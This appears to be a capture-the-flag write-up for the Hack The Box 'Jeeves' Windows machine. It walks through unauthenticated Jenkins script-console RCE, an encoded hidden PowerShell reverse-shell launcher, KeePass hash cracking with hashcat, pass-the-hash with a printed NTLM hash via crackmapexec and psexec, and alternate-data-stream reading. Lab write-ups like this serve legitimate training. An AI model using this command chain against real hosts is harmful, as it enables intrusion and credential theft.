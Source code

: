 # JEEVES

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Key Techniques:**  
  1. Unauthenticated Jenkins RCE  
  2. Exfil KeePass DB via Jenkins workspace  
  3. Crack master‑password → extract NTLM hash  
  4. Pass‑the‑hash to get SYSTEM  
  5. Alternate Data Stream for root.txt  

---

## TL;DR 🚀
1. **Recon:**  
   - `nmap` → ports **80** (IIS), **50000** (Jetty), **445** (SMB)  
   - Web on 50000 → **/askjeeves** found with `gobuster` + DirBuster list  
2. **Jenkins RCE:**  
   - Navigate to `http://10.10.10.63:50000/askjeeves` → Jenkins UI, no auth  
   - Use **Script Console** or create a **Freestyle Job** to run `cmd.exe /c whoami`  
   - Replace with reverse‑shell payload → get `jeeves\kohsuke` shell  
3. **Initial Shell (kohsuke):**  
   - `type C:\Users\kohsuke\Desktop\user.txt` → user flag  
   - Find `CEH.kdbx` in `C:\Users\kohsuke\Documents`  
4. **Exfil & Crack KeePass:**  
   - Copy `CEH.kdbx` into Jenkins workspace → download  
   - `keepass2john CEH.kdbx > CEH.hash`  
   - `hashcat CEH.hash rockyou.txt` → **moonshine1**  
5. **Dump NTLM Hash:**  
   - `kpcli --kdb CEH.kdbx` → show “Backup stuff” entry:  
     ```
     LM: aad3b435…0000   NT: e0fb1fb8…fe00
     ```  
6. **Pass‑the‑Hash → SYSTEM:**  
   - `crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435…:e0fb1fb8…` (Pwn3d!)  
   - `psexec.py -hashes aad3b435…:e0fb1fb8… Administrator@10.10.10.63 cmd.exe`  
7. **Root Flag via ADS:**  
   - On admin desktop: `dir /R hm.txt`  
   - Read hidden stream: `more < hm.txt:root.txt` → root flag  

---

## Essential Commands 🛠️

```bash
# 1. Find Jenkins (/askjeeves) on port 50000
gobuster dir -u http://10.10.10.63:50000/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x txt,php,html

# 2. Jenkins RCE via Script Console
# (e.g.) Groovy: println "cmd.exe /c whoami".execute().text

# 3. Reverse shell payload in a Freestyle Jenkins job
powershell -NoP -NonI -W Hidden -Exec Bypass \
  -EncodedCommand <base64-payload>

# 4. KeePass master-password cracking
keepass2john CEH.kdbx > CEH.hash
hashcat -m 13400 CEH.hash /usr/share/wordlists/rockyou.txt

# 5. Extract NTLM hash with kpcli
kpcli --kdb CEH.kdbx
  find .
  show -f <entry#>

# 6. Pass‑the‑hash to get SYSTEM
crackmapexec smb 10.10.10.63 \
  -u Administrator \
  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

# 7. Psexec shell
psexec.py -hashes aad3b435…:e0fb1fb8… \
  Administrator@10.10.10.63 cmd.exe

# 8. Read root.txt from ADS
dir /R hm.txt
more < hm.txt:root.txt
```

---

## Key Takeaways 🔑
- **Unauthenticated Jenkins** → immediate RCE via Script Console or build steps.  
- **Jenkins workspace** makes exfil—drop any file there and fetch over HTTP.  
- **KeePass DB** on user profile can leak high‑priv creds if master password is weak.  
- **Pass‑the‑hash** remains a powerful Windows attack when NTLM hashes are recovered.  
- **Alternate Data Streams (ADS)** hide files in plain sight—remember `dir /R`.  